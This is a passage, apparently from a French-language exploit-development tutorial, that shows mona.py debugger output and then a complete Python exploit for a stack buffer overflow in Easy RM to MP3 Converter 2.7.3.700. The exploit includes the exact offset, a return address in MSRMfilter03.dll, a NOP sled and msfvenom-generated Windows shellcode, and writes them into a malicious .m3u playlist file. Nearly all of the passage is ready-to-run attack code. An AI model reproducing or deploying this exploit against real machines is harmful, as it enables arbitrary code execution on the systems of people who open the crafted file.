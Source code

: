``` text
0BADF00D   [+] This mona.py action took 0:00:02.314000
           [12:25:33] Thread 0000054C terminated, exit code 0
           [12:26:32] Thread 000005F4 terminated, exit code 0
```

On trouve une adresse de retour utilisable: **0x1001b058**. L'exploit final:

``` python
#!/bin/env python
# Exploit Title: Stack Overflow in Easy RM to MP3 Converter
# Date: 18/04/2016
# Exploit Author: Dude
# Vendor Homepage: [link]
# Software Link: [download link if available]
# Version: 2.7.3.700
# Tested on: Windows 7 SP1 Ultimate (Should work on every version)

# Exploit information
# Offset: 26109
# Return address: 0x1001b058 (push esp # ret in MSRMfilter03.dll)
# Payload: msfvenom -p windows/exec CMD=cmd.exe -f py --bad-chars "\x00\x0d\x0a"


offset = 20000 + 6109
ret = '\x58\xb0\x01\x10'
nop = '\x90'
buf =  ""
buf += "\xd9\xcf\xbd\x0f\x30\x90\xb7\xd9\x74\x24\xf4\x58\x29"
buf += "\xc9\xb1\x31\x31\x68\x17\x83\xc0\x04\x03\x67\x23\x72"
buf += "\x42\x8b\xab\xf0\xad\x73\x2c\x95\x24\x96\x1d\x95\x53"
buf += "\xd3\x0e\x25\x17\xb1\xa2\xce\x75\x21\x30\xa2\x51\x46"
buf += "\xf1\x09\x84\x69\x02\x21\xf4\xe8\x80\x38\x29\xca\xb9"
buf += "\xf2\x3c\x0b\xfd\xef\xcd\x59\x56\x7b\x63\x4d\xd3\x31"
buf += "\xb8\xe6\xaf\xd4\xb8\x1b\x67\xd6\xe9\x8a\xf3\x81\x29"
buf += "\x2d\xd7\xb9\x63\x35\x34\x87\x3a\xce\x8e\x73\xbd\x06"
buf += "\xdf\x7c\x12\x67\xef\x8e\x6a\xa0\xc8\x70\x19\xd8\x2a"
buf += "\x0c\x1a\x1f\x50\xca\xaf\xbb\xf2\x99\x08\x67\x02\x4d"
buf += "\xce\xec\x08\x3a\x84\xaa\x0c\xbd\x49\xc1\x29\x36\x6c"
buf += "\x05\xb8\x0c\x4b\x81\xe0\xd7\xf2\x90\x4c\xb9\x0b\xc2"
buf += "\x2e\x66\xae\x89\xc3\x73\xc3\xd0\x89\x82\x51\x6f\xff"
buf += "\x85\x69\x6f\x50\xee\x58\xe4\x3f\x69\x65\x2f\x04\x85"
buf += "\x2f\x6d\x2d\x0e\xf6\xe4\x6f\x53\x09\xd3\xac\x6a\x8a"
buf += "\xd1\x4c\x89\x92\x90\x49\xd5\x14\x49\x20\x46\xf1\x6d"
buf += "\x97\x67\xd0\x0e\x7a\xfc\xf5\xb5\xfc\x99\x09"

# Creating file content
content = nop*offset+ret+nop*100+buf+nop*(30000-4-offset-100-len(buf))

# Creating payload file
f = open('file.m3u','w')
f.write(content)
```
